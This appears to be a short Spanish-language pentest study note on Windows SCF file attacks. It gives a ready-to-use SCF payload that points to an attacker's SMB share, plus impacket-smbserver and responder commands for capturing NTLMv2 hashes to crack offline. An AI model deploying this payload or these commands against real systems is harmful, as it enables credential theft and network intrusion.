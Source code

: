 -----
- Tags: #teoria #practica #explotación 
----
# SCF File Attacks 

### En el contexto de **Windows**, un archvio **SCF (Shell Command File)** es un tipo de archivo de script que contiene comandos que peuden ser ejecutados por el Explorador de Windows u otros componentes del sistema operativo. Estos archivos se utilizan para automatizar tareas relacionadas con el sistema, configuraciones y operaciones en el entorno de Windows. 

-----
# Explotación 

### No es nuevo que los **SCF (Shell Command FIle)** pueden ser usados para distintas operaciones. Una de estas operaciones puede permitirle al **SCF** acceder a un path de un servicio SMB permitiendo así a los atacantes capturar el hash NTLMv2.

#### File.scf
```scf
[Shell]
Command=2
IconFile=\\{our_smb_server_ip}\{folder}\test.ico
[TaskBar]
Command=ToggleDesktop
```

### Una vez creado el archivo, al momento de ser ejecutado intentará cargar un icono desde el recurso indicado, por lo que desde nuestra máquina de atacante podríamos crear un servidor SMB o estar en escucha con el **responder** con el fin de capturar el hash NTLMv2

#### impacket-smbserver
```bash
# Crear un servidor smb para recibir la petición a la hora de ejecutar el archivo
impacket-smbserver -smb2support smbFolder $(pwd)
```
#### responder
```bash
responder -w --lm -v -I {interfaz}
```

### Una vez capturado el hash, solo queda intentar crackearlo de manera ofline con herramientas como **john**.

